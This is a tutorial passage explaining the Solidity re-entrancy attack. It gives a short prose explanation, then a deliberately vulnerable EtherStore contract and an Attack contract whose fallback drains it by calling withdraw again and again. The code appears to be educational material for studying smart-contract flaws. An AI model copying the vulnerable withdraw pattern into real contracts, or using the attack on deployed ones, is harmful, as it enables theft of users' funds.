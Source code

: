 # Common Attacks

### Re-Entrancy Reentrancy Attack

The so-called re-entry means that A calls B, and A is called in B. Of course, re-entry is not a problem. The key to the attack here is that although A will check the relevant state before calling B, it will only change the relevant state after B returns, which leads to the cycle of A calling B and B calling A. Keep looping until B actively stops.

Attack example:



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
```